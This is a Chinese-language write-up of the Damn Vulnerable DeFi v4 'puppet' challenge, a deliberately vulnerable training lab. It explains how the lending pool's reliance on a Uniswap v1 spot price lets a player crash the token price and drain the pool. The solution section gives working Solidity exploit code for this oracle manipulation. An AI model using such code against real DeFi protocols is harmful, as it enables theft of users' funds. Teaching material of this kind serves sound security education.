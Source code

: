 # Damn Vulnerable DeFi v4 - puppet

- https://www.damnvulnerabledefi.xyz/challenges/puppet/

## check condition

player 只能發起一個交易，清空 lending pool 所持有的 token 並轉移至 recovery

```solidity
// Player executed a single transaction
assertEq(vm.getNonce(player), 1, "Player executed more than one tx");

// All tokens of the lending pool were deposited into the recovery account
assertEq(
    token.balanceOf(address(lendingPool)),
    0,
    "Pool still has tokens"
);
assertGe(
    token.balanceOf(recovery),
    POOL_INITIAL_TOKEN_BALANCE,
    "Not enough tokens in recovery account"
);
```

## break

主要的問題在 lending pool 使用 uniswap-v1 Dex 的 spot price 作為評估抵押品價值的依據。當 Dex 流動性不太足夠時，可以操作 Dex 上的 spot price。

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

可以從 setup 看到，play 手上的 token 和 eth 都比 dex 裡面還多，可以對 spot price 有顯著的影響:

```solidity
uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
uint256 constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;
uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 1000e18;
uint256 constant PLAYER_INITIAL_ETH_BALANCE = 25e18;
```

## solution

```solidity
contract Trigger {
    DamnValuableToken internal token;
    IUniswapV1Exchange internal exchange;
    PuppetPool internal pool;
    address internal recovery;

    constructor(
        DamnValuableToken token_,
        IUniswapV1Exchange exchange_,
        PuppetPool pool_,
        address recovery_
    ) {
        token = token_;
        exchange = exchange_;
        pool = pool_;
        recovery = recovery_;
    }

    function exec(
        uint256 tokenAmount_,
        uint256 borrowAmount_
    ) external payable {
        // pull token
        token.transferFrom(msg.sender, address(this), tokenAmount_);
        // manipulate price
        token.approve(address(exchange), type(uint256).max);
        exchange.tokenToEthSwapInput(tokenAmount_, 1, block.timestamp * 2);
        // borrow
        uint256 need = pool.calculateDepositRequired(borrowAmount_);
        pool.borrow{value: need}(borrowAmount_, recovery);
    }

    receive() external payable {}
}

Trigger trigger = new Trigger(
    token,
    uniswapV1Exchange,
    lendingPool,
    recovery
);
token.approve(address(trigger), type(uint256).max);
trigger.exec{value: PLAYER_INITIAL_ETH_BALANCE}(
    PLAYER_INITIAL_TOKEN_BALANCE,
    POOL_INITIAL_TOKEN_BALANCE
);
```
